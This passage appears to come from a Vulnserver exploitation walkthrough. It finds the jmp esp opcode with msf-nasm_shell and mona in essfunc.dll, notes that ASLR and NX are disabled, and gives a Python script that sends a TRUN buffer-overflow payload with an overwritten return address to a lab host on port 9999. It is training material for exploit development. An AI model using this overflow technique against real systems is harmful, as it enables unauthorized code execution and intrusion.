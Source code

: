 From these two, it is always best to try our exploit from an DLL and not from the actual exe itself

Lets find the ```jmp esp``` opcode from the memory of ```essfunc.dll```

To find the opcode using mona, we need the hex value of the opcode which can be done by ```nasm shell```

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ locate nasm_shell
/usr/bin/msf-nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
                                                                       
┌──(kali㉿aidenpearce369)-[~]
└─$ /usr/bin/msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > exit
                                                                       
┌──(kali㉿aidenpearce369)-[~]
└─$ echo "\xe4\xff"
��
```

Finding the offset of ```jmp esp``` opcode using mona by the command ```!mona find -s \xff\xe4 -m essfunc.dll```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/mona-jmp-esp.png">
</div>

We could see there are 9 pointers available for this exploit which has ```jmp esp``` opcode in it and it also doesn't change its memory address

Eventhough ```ASLR``` is enabled for other parts, here it is disabled which makes the address to remain static & suitable for exploitation

```NX bit``` is also disabled, which allows us to execute shellcode on stack memory

Also, while checking the pointer addresses make sure that the address do not contain bad characters in it, which may cause poor exploitation

Lets craft the script and enter the address of the opcode in ```little endian``` format because the data in stack is placed in little endian format

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat jump_esp.py     
import socket, sys
# to overwrite buffer and EBP
payload=b"A"*2003
# to redirect the control to ESP -> JMP ESP
payload+=b"\xaf\x11\x50\x62"
# testing stack values on ESP
payload+=b"C"*4
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.141", 9999))
s.send((b"TRUN /.:/"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ python3 jump_esp.py 
```
